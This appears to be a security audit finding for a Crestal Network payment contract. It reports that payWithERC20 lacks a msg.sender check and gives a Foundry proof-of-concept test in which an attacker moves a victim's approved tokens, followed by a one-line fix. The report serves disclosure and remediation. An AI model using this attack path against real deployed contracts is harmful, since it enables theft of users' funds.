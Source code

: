 Mini Honeysuckle Orca

High

# missing  access controls in Payment::payWithERC20 result in attacker stealing victim's funds

### Summary

the function  Payment::payWithERC20 doesn't check if the fromAddress is the msg.sender so any attacker can initiate a transfer using a victim's address as fromAddress stealing there funds 

### Root Cause

the function Payment::payWithERC20 doesn't check that msg.sender is the fromAddress

[code](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25C27-L25C108)

### Internal Pre-conditions

victim needs to approve the transfer

### External Pre-conditions

victim approving the transfer

### Attack Path

victim approves the contract to spend the money 

 attacker calls the payWithERC20 
provides address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress(attacker address)
drains the victim(fromAddress)'s funds


### Impact

an attacker can steal a victim's funds


### PoC


create a test folder and paste the following code in it and run `forge test`

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/Payment.sol"; 
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Mock ERC20 token for testing
contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 1000e18); // Mint tokens to deployer
    }
}

contract PaymentTest is Test { 
    Payment payment; 
    MockERC20 mockERC20;

    address alice = address(0x1234);
    address bob = address(0x5678);
    address attacker = address(0x9999);

    function setUp() public {
        payment = new Payment(); 
        mockERC20 = new MockERC20("MockToken", "MTK");

        // Fund Alice with mock tokens
        mockERC20.transfer(alice, 100e18);
    }

 
    function testUnauthorizedTransferWithoutAccessControl() public {
        // Deploy a vulnerable version of the contract (no access controls)
        payment = new Payment(); 

        // Alice approves the contract to spend her tokens
        vm.startPrank(alice);
        mockERC20.approve(address(payment), 50e18);
        vm.stopPrank();

        // Attacker tries to transfer tokens from Alice to Bob
        vm.startPrank(attacker);
        payment.payWithERC20(address(mockERC20), 50e18, alice, bob);

        // Check balances
        assertEq(mockERC20.balanceOf(alice), 50e18); // Alice's balance is reduced
        assertEq(mockERC20.balanceOf(bob), 50e18);   // Bob receives the tokens
        vm.stopPrank();
    }
}

```

### Mitigation

add a check to confirm that the msg.sender is fromAddress 